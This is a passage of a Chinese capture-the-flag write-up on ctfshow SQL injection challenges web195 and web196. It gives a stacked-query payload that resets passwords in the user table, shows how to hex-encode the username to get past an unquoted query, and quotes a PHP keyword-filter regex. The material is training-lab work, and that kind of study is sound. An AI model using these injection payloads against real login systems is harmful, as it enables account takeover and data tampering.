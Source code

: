 ```swift
admin;update`ctfshow_user`set`pass`=222;
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/71c40699266911404b2db75a07f98893.png" alt="" style="max-height:367px; box-sizing:content-box;" />


但是出现问题了 这里无法成功登入 为什么呢

我们来看看查询语句

```php
$sql = "select pass from ctfshow_user where username = {$username};";
```

发现这里username没有被引号包裹 就类似于



<img src="https://i-blog.csdnimg.cn/blog_migrate/30f6ca3f26e9f0e214bf012ba4e77bb3.png" alt="" style="max-height:177px; box-sizing:content-box;" />


所以无法实现读取 我们只需要转变为 hex 然后数据库就会自动识别并且转为字符串 所以我们把admin变为 0x61646d696e

然后我们再试试看



<img src="https://i-blog.csdnimg.cn/blog_migrate/c2741f0803ea00663eda80a4cd5123f0.png" alt="" style="max-height:160px; box-sizing:content-box;" />


成功查询

然后我们就可以开始了



<img src="https://i-blog.csdnimg.cn/blog_migrate/87867a575ea988b109d311b37ccd8ee2.png" alt="" style="max-height:398px; box-sizing:content-box;" />


payload是

```cobol
0x61646d696e;update`ctfshow_user`set`pass`=222;
```

## web196 通过select 实现欺骗登入

一样查看过滤

```php
 
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
```

好像还是没有过滤我们的东西
